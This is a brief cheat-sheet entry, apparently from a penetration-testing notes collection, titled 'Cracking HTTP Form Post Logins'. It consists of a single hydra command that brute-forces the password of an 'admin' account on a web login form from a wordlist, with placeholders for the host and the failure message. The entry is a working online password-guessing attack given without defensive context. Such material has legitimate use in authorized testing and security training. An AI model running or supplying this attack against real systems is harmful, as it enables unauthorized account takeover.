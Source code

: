 # Cracking HTTP Form Post Logins

```
hydra \
    -l admin \
    -P <WORDLIST> \
    <HOST> \
    http-form-post \
    -m "/department/login.php:username=^USER^&password=^PASS^:<ERROR MESSAGE>"
```
